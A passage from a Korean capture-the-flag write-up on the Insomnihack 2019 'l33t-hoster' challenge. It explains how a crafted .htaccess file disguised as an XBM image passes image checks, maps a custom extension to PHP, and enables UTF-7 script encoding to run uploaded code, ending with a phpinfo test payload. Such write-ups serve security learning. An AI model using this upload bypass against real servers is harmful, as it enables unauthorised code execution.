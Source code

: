 ### Format
XBM files differ markedly from most image files in that they take the form of C source files. This means that they can be compiled directly into an application without any preprocessing steps, but it also makes them far larger than their raw pixel data. The image data is encoded as a comma-separated list of byte values, each written in the C hexadecimal notation, '0x13' for example, so that multiple ASCII characters are used to express a single byte of image information.[4]

XBM data consists of a series of static unsigned char arrays containing the monochrome pixel data. When the format was in common use, an XBM typically appeared in headers (.h files) which featured one array per image stored in the header. The following piece of C code exemplifies an XBM file:

```plain
#define test_width 16
#define test_height 7
static char test_bits[] = {
0x13, 0x00, 0x15, 0x00, 0x93, 0xcd, 0x55, 0xa5, 0x93, 0xc5, 0x00, 0x80,
0x00, 0x60 };
```

즉, 파일의 시작은 `#`으로 시작하며, 내가 파일의 width와 height도 설정할 수 있다.
그런데 `#` 뒤의 문자열은 `.htaccess`에서 주석으로 해석한다.  

따라서 `.htaccess` 파일 상단에 `xbm` 파일처럼 `width`와 `height`의 크기를 설정 해 준다면, `exif_imagetype()`도 통과하고, 마지막에 이미지의 가로와 세로의 길이가 `1337` 이어야 하는 조건문을 통과하면서 `.htaccess`에서는 해당 줄을 주석으로 처리 해 무시하게 될 것이다.
이 내용들을 바탕으로 다시 `.htaccess` 파일의 내용을 구성하면 다음과 같다.  

```plain
#define test_width 1337
#define test_height 1337

AddType application/x-httpd-php .aaa
```

다 된 것 같았는데 또 하나의 문제점이 있었다.
바로 `<?`를 사용할 수 없다는 점이었다.
그래서 `.htaccess`에 대해서 검색하다가 인터넷에서 [htaccess 치트엔진](https://github.com/sektioneins/pcc/wiki/PHP-htaccess-injection-cheat-sheet)을 찾을 수 있었다.
나는 여기에서 아래와 같은 부분을 사용하기로 했다.

![](/images/CTF/insomnihack2019/l33t-hoster/l33t_02.png)  

그래서 변경 한 `.htaccess`는 다음과 같다.  

* .htaccess (업로드 할 때는 ..htaccess)
```plain
#define test_width 1337
#define test_height 1337
AddType application/x-httpd-php .aaa
php_flag zend.multibyte 1
php_value zend.script_encoding "UTF-7"
```

그럼 이제 새로운 `.aaa` 파일을 업로드 하는데, 코드의 내용을 `UTF-7`로 인코딩 해 업로드 하면 아마 자동으로 `UTF-7` 디코딩을 하여 실행할 수 있을 것이다.
`code.aaa`라는 파일을 아래와 같이 만들었다.  

* code.aaa (원본)
```plain
#define test_width 1337
#define test_height 1337
<? phpinfo();
```
